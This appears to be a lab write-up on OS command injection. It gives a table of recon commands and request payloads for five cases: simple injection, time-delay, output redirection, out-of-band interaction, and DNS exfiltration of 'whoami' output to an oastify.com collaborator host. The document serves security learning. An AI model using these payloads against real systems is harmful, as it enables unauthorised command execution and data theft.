#
| Purpose of command      | Linux |Window |
| ----------- | ----------- |----------- |
| Name of current user     | Whoami      |whoami      |
| OS  | uname -a       |ver        |
| Network configuration    | ifconfig       |ipconfig /all      |
| Network connections    | netstat -an        |netstat -an        |
| Running processes   | ps -ef       |tasklist        |


+ Linux 	Windows
    + Name of current user 	whoami 	whoami

Operating system 	uname -a 	ver

Network configuration 	ifconfig 	ipconfig /all

Network connections 	netstat -an 	netstat -an

Running processes 	ps -ef 	tasklist 
## OS command injection, simple case
+ Injection point 



+ Edit to
```sql
productId=9&storeId=1|whoami
``` 

+ Result




## Blind OS command injection with time delays
+ Injection point



+ Edit to
```sql
csrf=FBV2IgYkUcBBbBB3Ym2rf4jzwzt8u5GC&name=asfasfsa&email=x||ping+-c+10+127.0.0.1||&subject=fasfsaf&message=asfafasf
```

+ Result 


## Blind OS command injection with output redirection
+ Injection Point



+ Change to
```sql
csrf=mMJdwPhirm9P31qyprO5FdxcQ0wfMs7Q&name=dasdfisijfh&email=a||ps+-ef>/var/www/images/abcde.txt||&subject=dassad&message=asdfasf
```

+ Result





## Blind OS command injection with out-of-band interaction
+ Injection Point



+ Change to
```sql
csrf=hqgeul0SUvT16iR4Lg3IdWvcwFiNG5hx&name=fasfa&email=||ping+2wzr9h5w9vyrx07wc2j5vhgf66cx0poe.oastify.com||&subject=asfasf&message=asdsad
```

+ Result 




## Blind OS command injection with out-of-band data exfiltration
+ Injection Point



+ Change to
```sql
csrf=1tb7VHZz9g0U9QprXdVIkKwGYN6fhsf4&name=asfasf&email=||nslookup+`whoami`.2wzr9h5w9vyrx07wc2j5vhgf66cx0poe.oastify.com||&subject=fasasfa&message=afasfa
```

+ Result


